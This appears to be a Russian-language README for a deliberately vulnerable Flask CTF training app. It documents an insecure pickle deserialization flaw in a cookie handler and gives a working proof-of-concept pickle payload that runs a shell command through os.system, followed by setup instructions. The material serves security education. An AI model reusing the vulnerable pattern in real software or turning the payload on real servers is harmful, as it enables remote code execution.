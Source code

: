 # TechLaunch Beta Waitlist - Уязвимое Flask приложение

## 📋 Описание проекта

TechLaunch - это демонстрационное веб-приложение для списка ожидания бета-тестирования, написанное на Flask. Приложение содержит преднамеренно внесенные уязвимости для образовательных целей в области кибербезопасности.

## ⚠️ Выявленные уязвимости

### 1. Небезопасная десериализация (CWE-502)
**Критичность:** Высокая  
**Расположение:** `app.py`, функция `thank_you()`

```python
# УЯЗВИМЫЙ КОД
manager_data = base64.b64decode(manager_cookie)
email_manager = pickle.loads(manager_data)  # RCE через pickle
```

**Воздействие:** Возможность выполнения произвольного кода на сервере

## 🔬 Proof of Concept

### Эксплойт для RCE через pickle

```python
import pickle
import base64
import os

# Самый надежный способ - использовать tuple с функцией и аргументами
class RCE:
    def __reduce__(self):
        # Простая команда для проверки - создает файл
        return (os.system, ('touch /tmp/pwned_success_$(date +%s)',))

# Создаем payload
rce = RCE()
payload = pickle.dumps(rce)
encoded_payload = base64.b64encode(payload).decode()

print(encoded_payload)
```
## 🛠️ Установка и запуск

### Локальная разработка

```bash
# Клонирование репозитория
git clone <repository-url>
cd ctf-4

# Установка зависимостей
pip install -r requirements.txt

# Запуск приложения
python app.py
```

### Docker развертывание

```bash
# Сборка образа
docker build -t techlaunch-app .

# Запуск контейнера
docker run -p 5000:5000 techlaunch-app
```

Приложение будет доступно по адресу: `http://localhost:5000`

## 📁 Структура проекта

```
ctf-4/
├── app.py                 # Основное Flask приложение
├── templates/
│   ├── index.html         # Главная страница
│   └── thank_you.html     # Страница подтверждения
├── requirements.txt       # Зависимости Python
├── Dockerfile            # Конфигурация Docker
└── README.md            # Документация
```

